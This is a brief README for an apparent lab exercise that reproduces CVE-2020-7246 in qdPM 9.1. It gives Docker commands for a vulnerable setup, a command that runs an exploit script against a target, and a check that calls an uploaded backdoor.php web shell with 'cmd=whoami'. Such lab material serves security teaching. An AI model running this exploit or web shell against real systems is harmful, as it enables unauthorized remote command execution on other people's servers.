 # CVE-2020-7246 (qdPM 9.1)

For educational purposes only.

See Reference for the details.


## Run
```
$ git clone https://github.com/arafatansari/SecAssignment.git
$ cd SecAssignment
$ docker build -t cve-assignment:ine .
$ docker run -it -p 80:80 cve-assignment:ine
$ service apache2 start | service mysql start
```

## Exploit
```
$ python Exploit/exploit.py -url http://{target-ip}/qdpm/ -u test@localhost.com -p password
```

## Check (exploited)
```
$ http://{target-ip}/qdpm/uploads/users/xxxx-backdoor.php?cmd=whoami
```